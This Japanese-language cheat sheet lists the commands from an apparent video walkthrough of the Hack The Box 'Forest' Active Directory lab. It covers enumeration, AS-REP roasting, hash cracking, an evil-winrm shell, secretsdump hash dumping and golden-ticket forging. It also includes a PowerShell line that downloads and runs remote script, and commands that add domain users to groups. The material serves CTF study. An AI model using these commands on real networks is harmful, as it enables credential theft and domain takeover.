 -----

### YouTube動画「Hacking a Corporate Network - Hack The Box: Forest Walkthrough」で使用されたコマンド

#### ネットワークスキャンと情報収集

  - **ポートスキャンとサービス特定**

    ```
    nmap -sC -sV -oA nmap/forest <IPアドレス>
    nmap -p- -oA nmap/forest-all <IPアドレス>
    ```

  - **LDAPとDNSの列挙**

    ```
    ldapsearch -h <IPアドレス> -x -s base namingContexts
    ldapsearch -h <IPアドレス> -x -b "DC=hdb,DC=local" "(objectClass=person)"
    ```

  - **RPC接続と情報取得**

    ```
    rpcclient -U "" -N <IPアドレス>
    ```

-----

#### 脆弱性利用と認証情報取得

  - **Kerberosの脆弱性利用**

    ```
    getNPUsers.py -dc-ip <IPアドレス> -request htb.local/
    ```

  - **パスワードポリシーの確認**

    ```
    crackmapexec smb <IPアドレス> -u "" -p "" --pass-pol
    ```

  - **ハッシュクラッキング**

    ```
    hashcat -m <ハッシュタイプ> <ハッシュファイル> <ワードリスト>
    ```

-----

#### 権限昇格と横展開

  - **リモートシェル接続**

    ```
    evil-winrm -i <IPアドレス> -u <ユーザー名> -p <パスワード>
    ```

  - **ドメイン内のハッシュダンプ**

    ```
    secretsdump.py <ドメイン>/<ユーザー名>:<パスワード>@<IPアドレス>
    ```

  - **ゴールデンチケットの作成**

    ```
    ticketer.py -nthash <ハッシュ> -domain-sid <SID> -domain <ドメイン> <ユーザー名>
    ```

  - **PowerShellスクリプトの実行**

    ```
    iex (New-Object Net.WebClient).DownloadString('<URL>')
    ```

-----

#### ユーザー・グループ管理

  - **ユーザーの追加**

    ```
    net user <ユーザー名> <パスワード> /add /domain
    ```

  - **グループへのユーザー追加**

    ```
    net group "<グループ名>" <ユーザー名> /add
    ```